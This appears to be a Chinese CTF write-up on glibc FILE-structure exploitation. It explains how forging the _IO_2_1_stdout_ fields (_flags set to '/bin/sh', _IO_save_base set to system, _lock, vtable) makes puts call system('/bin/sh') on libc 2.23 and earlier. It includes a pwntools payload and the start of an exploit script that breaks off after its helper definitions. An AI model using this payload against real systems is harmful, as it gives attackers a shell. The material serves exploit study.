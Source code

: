```bash
0x80  _cur_column
0x82  _vtable_offset
0x83  _shortbuf
0x88  _lock
0x90  _offset
0x98  _codecvt
0xa0  _wide_data
0xa8  _freeres_list
0xb0  _freeres_buf
0xb8  __pad5
0xc0  _mode
0xc4  _unused2
0xd8  vtable
```

1、篡改\_IO\_FILE 结构体中的 vtable 字段时，要不可避免的填充之前的字段，但如果将\_lock 字段破坏的话，在执行输出函数中最开始上锁的宏\_IO\_acquire\_lock (\_IO\_stdout) 就会崩溃掉，因此需要保证\_lock 字段是正常的。

2、如果想通过直接修改 \_IO\_2\_1_stdout_ 结构体中的字段来 getshell 的话，我们可以将\_flags 字段写入字符串/bin/sh\\x00(是字符串，并非该字符串的地址)，然后将 vtable 修改为\_IO\_2\_1\_stdout\_的地址 +0x10，然后将\_IO\_save\_base 字段 (0x48) 写成 system 地址，最后要将\_lock 字段写入原本正常的值。这样当执行 puts 函数的时候会调用 vtable 中的\_IO\_new\_file\_xsputn 函数，但是 vtable 已经被修改，这个函数的偏移是 0x38，而 vtable 被修改成\_IO\_2\_1\_stdout\_的地址 +0x10，最终调用的是\_IO\_2\_1\_stdout\_的地址 +0x48 的函数指针，而这个位置就是\_IO\_save\_base 字段，里面放的是 system 的地址。而\_IO\_new\_file\_xsputn 函数的第一个参数是\_IO\_2\_1\_stdout\_的地址，而这个地址原本应该是\_flags 字段，但是现在却被写入了/bin/sh 字符串。因此本来正常调用的\_IO\_new\_file\_xsputn 函数如今变成了 system(‘/bin/sh\\x00’),从而获取 shell。(该方法在 libc2.23 以上的版本就无法再使用了)

根据上面的原理，我们再次劫持整个\_IO\_2\_1\_stdout\_结构，直接伪造 vtable，篡改\_flags、\_lock、vtable、\_IO\_save\_base 字段。

\_flags：'/bin/sh\\x00'  
\_IO\_save\_base: system  
\_lock: \_IO\_stdfile\_1\_lock #确保这个\_lock 字段的值是正常的  
vtable: \_IO\_2\_1_stdout_ +0x10

```bash
pl=flat([
    b'/bin/sh\x00',
    p64(0)*8,
    libc.symbols['system']+libc_base, #_IO_save_base
    p64(0)*6,
    p64(0),
    #p64(0)*3,
    libc_base+0x3c6780, #lock
    p64(0),
    p64(0)*8,
    libc_base+libc.symbols['_IO_2_1_stdout_']+0x10 #
    ])
```

## exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
```
